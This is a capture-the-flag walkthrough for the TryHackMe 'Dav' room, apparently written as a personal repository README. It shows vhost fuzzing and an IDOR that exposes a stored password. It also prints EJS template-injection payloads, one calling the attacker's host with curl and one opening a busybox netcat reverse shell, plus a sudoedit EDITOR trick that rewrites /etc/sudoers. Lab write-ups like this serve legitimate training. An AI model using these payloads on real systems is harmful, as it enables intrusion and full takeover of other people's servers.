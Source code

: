 # Dav CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Dav** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/bsidesgtdav). 
---


we see 2 open ports 22 and 80

![scn](imgs/scn.png "scn")

we need to add cyprusbank.thm to `/etc/hosts`

using feroxbuster without any result

used ffuf to find subdomains/vhosts

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://$IP:80 -H 'Host: FUZZ.cyprusbank.thm' -fs 57
```

![ffuf](imgs/ffuf.png "ffuf")

we found `www` and `admin` adding them to /etc/hosts

we found login page at admin.cyprusbank.thm

![log](imgs/log.png "log")

TryHackMe provides us with some credentials, and those work so we can login as `Olivia Cortez`

ok we can see that messages panel uses get paramtere to display the chat, we can manipulate the address to 

```
http://admin.cyprusbank.thm/messages/?c=0
```

there is an IDOR vulnerability, now we can see `Gayle Bev` password

![idor](imgs/idor.png "idor")

we found Tyrell Wllick's phone number

![nr](imgs/nr.png "nr")

we now also have access to settings page

![set](imgs/set.png "set")

after entering `test:123` we see that 123 was shown on the page

![set2](imgs/set2.png "set2")

if we capture and modify our request so it only sends `name=ww` we can see the error msg

![err](imgs/err.png "err")

i found this payload to test if we have EJS Server Side Template Injection (SSTI)

```
name=abc&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.14.X.X:8081');s
```

![curl](imgs/curl.png "curl")

after clicking send we got hit to our server so we might be able to smuggle the reverse shell in tha payload

![hit](imgs/hit.png "hit")

this payload should work

```
name=abc&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.14.91.59 4445 -e /bin/bash');s
```

we have reverse shell as `web`

![web](imgs/web.png "web")

we found user flag

![user](imgs/user.png "user")

here is the `sudo -l` output:

![sudol](imgs/sudol.png "sudol")

to priv esc we need stable shell and then we need to use

```
$ export EDITOR="nano -- /etc/sudoers"
$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

we need to change sudoers file so we can use sudo su witout a password

![sudoers](imgs/sudoers.png "sudoers")

we got root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED

